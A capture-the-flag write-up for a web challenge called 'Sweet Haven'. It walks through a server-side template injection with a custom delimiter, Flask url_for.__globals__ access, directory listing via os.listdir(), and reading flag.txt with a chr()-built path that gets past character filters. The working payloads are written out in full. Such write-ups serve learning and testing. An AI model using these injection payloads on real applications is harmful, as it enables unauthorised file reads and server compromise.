


# WEB EXP
# SWEET HAVEN
# CHALLENGE
we are given a website with login/register options. and a submit review option with input fields
## FLAG 
`nite{s5t1_w17h_un1c0d3_35c4p3_byp455}`
## MY SOLVE
1. by trial and error and going through the source code, i find the regex as `\N{DOLLAR SIGN}{payload}`
2. i submit `\N{DOLLAR SIGN}{7*7}` in the reviews and it works. it shows `49`.
3. so ssti is confirmed. 
4. 
5. Once SSTI is confirmed, I test access to Flask globals:

 `\\N{DOLLAR SIGN}{ url_for.__globals__ }`

From here, I can inspect deeper attributes and eventually dump objects inside `__globals__.`
6. 

5. next i input `\N{DOLLAR SIGN}{ url_for.__globals__.os.listdir() }` as the review and it gives output of all the directories
6. 
7. `flag.txt` is visible. 
8. since i know that there are a lot of input filtering happening and stuff by the prev inputs i gave, i engineer the command to open flag.txt such that it doesnt include forbidden characters. 
9.` $, quotes, unicode escapes` are filtered but `__builtins__ `is reachable, and `chr()` exists.  
So I  construct '/flag.txt' using ASCII codes.

9. i input `\N{DOLLAR SIGN}{url_for.__globals__.__builtins__.open(url_for.__globals__.__builtins__.chr(47)+url_for.__globals__.__builtins__.chr(102)+url_for.__globals__.__builtins__.chr(108)+url_for.__globals__.__builtins__.chr(97)+url_for.__globals__.__builtins__.chr(103)+url_for.__globals__.__builtins__.chr(46)+url_for.__globals__.__builtins__.chr(116)+url_for.__globals__.__builtins__.chr(120)+url_for.__globals__.__builtins__.chr(116)).read()}`
and it gives me the flag
10. flag is `nite{s5t1_w17h_un1c0d3_35c4p3_byp455}`

## LEARNINGS
- SSTI can still work with custom delimiters  
- Unicode escapes bypass filters  
- url_for.__globals__ exposes huge attack surface  
- chr() allows string construction even under strict filtering  
- os.listdir() without args = easy directory listings  

